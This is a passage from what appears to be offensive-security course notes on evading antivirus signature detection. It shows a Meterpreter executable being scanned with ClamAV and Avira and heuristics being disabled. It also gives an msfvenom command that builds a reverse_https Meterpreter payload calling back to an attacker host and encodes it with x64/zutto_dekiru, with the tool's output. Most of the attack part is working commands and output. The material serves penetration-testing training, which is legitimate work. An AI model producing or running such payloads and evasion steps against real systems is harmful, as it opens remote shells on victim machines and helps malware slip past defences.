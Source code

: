We'll copy it to our Windows 10 victim machine and scan it with ClamAV as shown in Listing 20.

```
PS C:\Program Files\ClamAV> .\clamscan.exe C:\Tools\met64.exe
C:\Tools\met64.exe: OK
...
```

> Listing 20 - Scanning 64-bit executable with ClamAV

Interesting. ClamAV does not flag this as malicious.

Since this is a major victory, let's push our luck and scan the file with Avira as well. Since we're only interested in signature detection at this point, we'll execute Avira desktop, navigate to _Antivirus_ > _Real-Time Protection_ and verify that real-time protection is turned off.

Next, we'll click on the configuration menu at the upper-right corner as shown in Figure 3.

![[OffSec/OSEP/Course/z. images/a98123d94dd830e8d64808825c3ff794_MD5.jpg]]

Figure 3: Avira antivirus configuration menu

In the configuration window, we'll expand the _System Scanner_ branch, navigate to _Scan_ > _Heuristics_, then de-select the box labelled "Enable AHeAD" (Figure 4).

![[OffSec/OSEP/Course/z. images/4808688fc21e205da07a1193720784be_MD5.jpg]]

Figure 4: Disabling heuristics in Avira

With the heuristics detection disabled, we'll right-click the met64.exe executable and execute an on-demand scan with Avira. As shown in Figure 5, Avira detects the 64-bit shellcode.

![[OffSec/OSEP/Course/z. images/d5730021c002e4dbceb7cd1acbfa5652_MD5.jpg]]

Figure 5: Avira detecting 64-bit Meterpreter executable

Next, let's use an encoder in an attempt to evade Avira. Since this is a 64-bit executable, we cannot use the 32-bit shikata_ga_nai encoder. Instead, we'll use the _x64/zutto_dekiru_ encoder,[2](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5134-2) which borrows many techniques from shikata_ga_nai.

```
kali@kali:~$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -e x64/zutto_dekiru -f exe -o /var/www/html/met64_zutto.exe
...
Attempting to encode payload with 1 iterations of x64/zutto_dekiru
x64/zutto_dekiru succeeded with size 840 (iteration=0)
x64/zutto_dekiru chosen with final size 840
Payload size: 840 bytes
Final size of exe file: 7168 bytes
Saved as: /var/www/html/met64_zutto.exe
```

> Listing 21 - Encoding with x64/zutto_dekiru

However, Avira flags this as well, again detecting the signature of the decoder or of the _template_. When msfvenom generates an executable, it inserts the shellcode into a valid executable. This template executable is static and likely has signatures attached to it as well.
